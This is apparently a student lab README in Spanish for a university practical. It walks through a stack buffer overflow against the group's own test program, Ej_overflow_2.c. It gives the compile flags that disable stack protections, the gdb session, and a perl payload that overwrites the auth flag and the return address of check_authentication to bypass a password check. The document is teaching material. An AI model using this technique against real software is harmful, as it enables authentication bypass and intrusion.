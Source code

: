 ## TP1 y TP2 grupo "SampleText"<br>
Integrantes : <br>
- Marco Valentino Di Giannantonio <br>
- Juan Ignacio Ulla <br>
- Leandro Augusto Villa <br>


#### Explicación del TP2:
En este trabajo logramos pisar la direccion de rotorno del programa Ej_overflow_2.c

Utilizamos Linux Mint 20 (Ubuntu 64 bits), y compilados el archivo con los siguientes flags:

<em><strong> gcc -m32 -no-pie -fno-stack-protector -ggdb -mpreferred-stack-boundary=2 -z execstack -o pisar Ej_overflow_2.c </strong></em>

Una vez compilado el archivo, obtenemos un ejecutable llamado "pisar" y lo corremos en gdb:

<em><strong> gdb -q pisar </strong></em>

Luego, procedemos a correr el programa con la siguiente entrada:

<em><strong> run $(perl -e 'print "A"x20 ."\x01\xc0\x04\x08"."\x18\xd1\xff\xff"."\xdc\x92\x04\x08" ') </strong></em>

Lo que se está haciendo es:
1. Llenar password_buffer con 16 caracteres "A".
2. Pisar la variable entera auth_flag con 4 caracteres "A". 
3. Manter los 4 Bytes de proteccion con el mismo valor (01c00408h). 
4. Mantener el puntero EBP (18d1ffffh). 
5. Pisar la direccion a donde tiene que retorar la funcion "check_authentication" con el valor dc920408h. Siendo este la dirección de la instruccion donde se hace un print a "Acceso Permitido..!!".


NOTA: Tener en cuenta que el procesador trabaja con la secuencia de orden Little Endian, por lo que las direcciones en los pasos 3, 4 y 5 están escritas en orden de "LSB --> MSB".
